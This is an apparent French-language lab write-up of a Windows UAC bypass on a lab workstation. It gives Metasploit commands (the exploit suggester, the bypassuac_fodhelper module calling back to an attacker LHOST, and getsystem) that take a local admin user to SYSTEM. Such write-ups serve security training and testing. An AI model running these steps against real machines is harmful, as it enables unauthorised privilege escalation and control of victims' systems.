


## Attaque
### Contexte

Alice dispose des droits administrateur local sur WS01 mais UAC bloque 
l'utilisation de son token admin. L'attaquant abuse d'un binaire Windows 
légitime pour contourner UAC et obtenir SYSTEM.

### Technique MITRE

| ID | Technique | Tactique |
|----|-----------|----------|
| T1548.002 | Bypass User Account Control | Privilege Escalation |

### Prérequis

| Élément   | Valeur                                      |
| --------- | ------------------------------------------- |
| Accès     | Session Meterpreter active (LAB\alice)      |
| Condition | alice membre du groupe local Administrators |
| Cible     | WS01 -> 192.168.10.101                      |

### Exécution

#### 1. Identifier les vecteurs d'élévation disponibles

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```



#### 2. Bypass UAC via fodhelper.exe

`bypassuac_fodhelper` est une référence sur Windows 10

```bash
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
set LHOST 192.168.10.200
run
```

#### 3. Élévation vers SYSTEM

```bash
getsystem
getuid
```



### Résultat

Élévation de LAB\alice vers NT AUTHORITY\SYSTEM sur WS01.

